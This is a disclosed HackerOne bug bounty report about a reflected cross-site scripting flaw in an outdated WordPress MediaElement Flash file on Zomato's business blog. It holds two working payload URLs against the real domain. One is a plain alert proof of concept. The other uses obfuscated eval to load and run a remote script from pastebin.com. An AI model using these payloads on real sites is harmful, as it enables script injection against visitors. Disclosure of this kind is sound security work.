# Outdated MediaElement.js Reflected Cross-Site Scripting (XSS)

## Report Details
- **Report ID**: 155228
- **URL**: https://hackerone.com/reports/155228
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-30T01:34:51.705Z
- **Disclosed**: 2018-04-02T23:59:36.035Z

## Reporter
- **Username**: mrtn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
I took a quick look at the business-blog.zomato.com wordpress installation, and found that it was quite outdated. (Version 4.2.4 as far as I could tell)

A pretty famous XSS attack exists for Wordpress versions below 4.5.2 that allows for reflected cross site scripting. More details can be found here: https://wpvulndb.com/vulnerabilities/8488

A proof of concept can be found by visiting this link:
https://business-blog.zomato.com/wp-includes/js/mediaelement/flashmediaelement.swf?jsinitfunctio%gn=alert`1`

Just for fun, this url should make the website play Harlem Shake:
https://business-blog.zomato.com/wp-includes/js/mediaelement/flashmediaelement.swf?%%jsinitfunction=1-location.replace`javascript:eval%2528unescape%2528location.hash.slice%25281%2529%2529%2529`-#s=document.createElement%28%27script%27%29;s.src=%27//pastebin.com/raw/Fi7KcBcd%27;document.body.appendChild%28s%29;//

## Attachments
No attachments
